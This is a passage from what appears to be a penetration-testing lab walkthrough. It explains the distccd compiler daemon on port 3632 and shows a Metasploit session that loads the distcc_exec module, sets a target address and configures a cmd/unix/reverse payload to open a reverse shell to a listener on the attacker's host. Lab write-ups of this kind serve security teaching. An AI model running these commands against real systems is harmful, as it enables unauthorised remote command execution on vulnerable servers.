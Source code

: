 Now we can look inside the databases and get any data that might interest us.


### Port 3632 distccd

distccd  is  the  server  for  the  distcc distributed compiler. It accepts and runs compilation jobs for network clients. Metasploit has an exploit avaiable for this:

**DistCC Daemon Command Execution**

> This module uses a documented security weakness to execute arbitrary commands on any system running distccd.


``` plain
msf > use exploit/unix/misc/distcc_exec
msf exploit(distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  3632             yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(distcc_exec) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(distcc_exec) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf exploit(distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.127.154  yes       The target address
   RPORT  3632             yes       The target port


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(distcc_exec) > set LHOST 192.168.127.159
LHOST => 192.168.127.159
msf exploit(distcc_exec) > exploit

```
